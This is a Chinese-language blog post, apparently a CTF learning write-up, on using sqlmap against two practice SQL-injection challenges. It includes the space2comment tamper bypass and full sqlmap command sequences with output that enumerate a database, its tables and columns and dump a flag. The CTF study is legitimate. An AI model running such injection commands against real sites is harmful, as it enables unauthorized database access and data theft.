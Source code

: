 ```yaml
---
layout: post
title: "sqlmap-learning2"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
---
```


* content
{:toc}


# 实验吧连接失败
> 实验吧的题目总是连接失败......


题目: [实验吧-简单的sql注入之2](http://www.shiyanbar.com/ctf/1908)

这道题目之前手工注入过.


简单尝试后可以发现过滤空格和`'`.

因为有空格过滤, 所以使用sqlmap的时候得想办法绕过. 

参考这篇文章:

[sqlmap的tamper详解](http://www.myh0st.cn/index.php/archives/881/)

可知在`tamper`中:
```
space2comment.py：
用 /**/ 替代空格，用于空格的绕过
```

知道这个就行了.

<br />

# bugku 成绩查询

## (1) 分析
源码:
```php
<h2 style='text-align:center;'>成绩查询</h2>
<form action='index.php' method='post'>
<input style='width:300px;height:40px;font-size:18px;' type='text' name='id' placeholder='1,2,3...'/><br><br><br><br><br>
<input style='width:100px;height:40px;' type='submit' value='Submit'/>
</form>
```


post提交, 需要sqlmap和burp一起用.

输入框随便输一个数, 如`1`. burp抓包, 保存到txt文件.

## (2) sqlmap
### 爆库
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id --current-db
```

`-r`: 加载一个文件 

`-p`: 指定参数 (这里是`id`, 原解题网址输入45的时候用burp抓包, 会发现返回`id=45`)


报错:
```
[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

改进, 提高level:
```
sqlmap.py -r "C:\Users\18056\Desktop\44.tx"t -p id --current-db --level=2
```

返回:
```
skctf_flag
current database: 'skctf_flag'
```

### 爆表
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag --tables --level=2
```

返回:
```
Database: skctf_flag
[2 tables]
+------+
| fl4g |
| sc   |
+------+
```

### 爆字段
flag应该在fl4g表中

```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag -T fl4g --columns --level=2
```

返回:
```
Database: skctf_flag
Table: fl4g
[1 column]
+------------+-------------+
| Column     | Type        |
+------------+-------------+
| skctf_flag | varchar(64) |
+------------+-------------+
```

### 列出字段信息
```
sqlmap.py -r "C:\Users\18056\Desktop\44.txt" -p id -D skctf_flag -T fl4g -C skctf_flag --dump
```

 `-–dump`: 列出字段数据

> 过程非常的慢. 卡住的时候回车一下就会继续进行


返回:
```
Database: skctf_flag
Table: fl4g
[1 entry]
+---------------------------------+
| skctf_flag                      |
+---------------------------------+
| BUGKU{Sql_INJECT0N_4813drd8hz4} |
+---------------------------------+
```
